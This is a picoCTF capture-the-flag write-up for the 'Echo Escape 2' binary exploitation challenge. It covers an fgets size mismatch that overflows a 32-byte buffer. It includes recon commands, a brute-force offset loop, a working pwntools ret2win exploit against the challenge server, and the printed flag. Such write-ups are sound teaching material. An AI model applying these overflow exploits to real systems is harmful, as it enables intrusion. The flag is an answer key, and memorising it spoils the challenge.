



# Echo Escape 2 — picoCTF
**Category:** Binary Exploitation
**Difficulty:** Medium
**Flag:** `picoCTF{fgets_0v3rfl0w42_a4f2ece1}`

---

## Overview

Another ret2win. The source code looks simple at first glance. `fgets` is used, no `gets` in sight. But the devil is in the numbers, and I spent more time than I'd like to admit guessing before I actually stopped and solved it properly.

---

## Setup

The challenge provides:
- `vuln.c` — C source code. I renamed it to "new.c.1
- `vuln` — compiled ELF binary
- A netcat instance to connect to

---

## Reading the Source

First thing I did was read through `vuln.c`. The structure is familiar — a `win()` function that opens `flag.txt` and prints it, and a `vuln()` function that takes user input. `win()` is never called anywhere in the program.

The relevant part of `vuln()`:

```c
char buf[32];
fgets(buf, 128, stdin);
printf("You entered:, %s\n", buf);
```


At first glance it looks fine because `fgets` is being used. But the buffer is 32 bytes and `fgets` is reading up to 128. Same story as before — the size argument doesn't match the buffer, so it's still a buffer overflow. The `fgets` safety only works if you pass the actual buffer size.

---

## Recon

Ran `file` on the binary and then `checksec`:

```bash
file vuln
checksec --file=vuln
```

Results:
- **Canary:** OFF
- **NX:** ON
- **PIE:** OFF

No canary means we can overwrite the return address without triggering a stack smashing alarm. No PIE means function addresses are fixed and predictable. NX means no shellcode — so the plan is ret2win: overflow the buffer and redirect execution to `win()`.

Found the address of `win()` using objdump:

```bash
objdump -d vuln | grep win
```

Got: `0x08049276`

---

## Initial Testing

Connected to the netcat server and just... poked at it.

```bash
nc dolphin-cove.picoctf.net 50122
```

Tried `AAAA`. The program ran normally, printed back my input, said goodbye, and exited, No crash.Then I tried a really long string of AAAA's which actually broke the program and crashed it.  My first instinct was "maybe I'm missing something" — but no, it's just that a clean overflow without hitting the return address doesn't always crash visibly. The vulnerability was there, I just hadn't hit the right offset yet.

---

## First Exploit Attempt (Wrong)

I assumed the offset would be:

```
32 (buffer size) + 4 (saved EBP) = 36 bytes
```

So I wrote:

```python
from pwn import *

p = remote("dolphin-cove.picoctf.net", 50122)
win = 0x08049276
payload = b"A"*36 + p32(win)

p.recvuntil(b"Enter the secret key:")
p.sendline(payload)
print(p.recvall().decode())
```

No crash. No flag. Nothing. Just the program completing normally as if I'd sent a polite greeting.

---

## The Blooper

At some point during the confusion I ran:

```bash
chmod +x vuln
```

Why? Genuinely unclear. The binary was already executable. I think I was just doing *something* to feel productive. Emotional support command. It did absolutely nothing, as expected.

---

## Actually Finding the Offset

After the failed guess I realised I was just throwing numbers at the wall. The right move was to find the offset properly instead of assuming it.

Since I didn't have a cyclic pattern set up, I wrote a brute-force loop that tries offsets from 20 to 60 and checks if the output contains the flag:

```python
from pwn import *

for i in range(20, 60):
    p = remote("dolphin-cove.picoctf.net", 50122)
    win = 0x08049276
    payload = b"A"*i + p32(win)

    try:
        p.recvuntil(b"Enter the secret key:")
        p.sendline(payload)
        out = p.recvall(timeout=1)

        if b"Flag" in out:
            print(f"[+] OFFSET FOUND: {i}")
            print(out.decode())
            break

    except:
        pass

    p.close()
```

The loop hit at `i = 44`. So the real offset was 44, not 36.

 

The extra 8 bytes came from compiler padding and stack alignment — the compiler doesn't always pack the stack exactly as the source code suggests. This is why guessing based on source alone is unreliable; the actual stack layout depends on how the compiler arranges things.

---

## Final Exploit

With the correct offset confirmed:

```python
from pwn import *

p = remote("dolphin-cove.picoctf.net", 50122)

win = 0x08049276
payload = b"A"*44 + p32(win)

p.recvuntil(b"Enter the secret key:")
p.sendline(payload)

print(p.recvall().decode(errors="ignore"))
```

One small issue — the first time I ran this I got a `UnicodeDecodeError`. The payload contains raw bytes like `\x92` that aren't valid UTF-8, so `.decode()` choked on them. Fixed by passing `errors="ignore"` to skip the problematic bytes.

---

## Flag




```
picoCTF{fgets_0v3rfl0w42_a4f2ece1}
```

---

## What I Learned

- `fgets` is only safe if you pass the correct buffer size. Passing a larger number defeats the whole point.
- Never assume the offset from source code alone — compiler padding and stack alignment can add extra bytes. Use a cyclic pattern or brute-force to confirm.
- `chmod +x` does not fix logical errors. I checked.
- Raw byte payloads will break `.decode()` — always use `errors="ignore"` or `errors="replace"` when decoding exploit output.
- The difference between a 32-byte buffer and a 44-byte offset is a lesson I won't forget.

---

## Key Commands Used

```bash
file vuln
checksec --file=vuln
objdump -d vuln | grep win
nc dolphin-cove.picoctf.net 50122
```
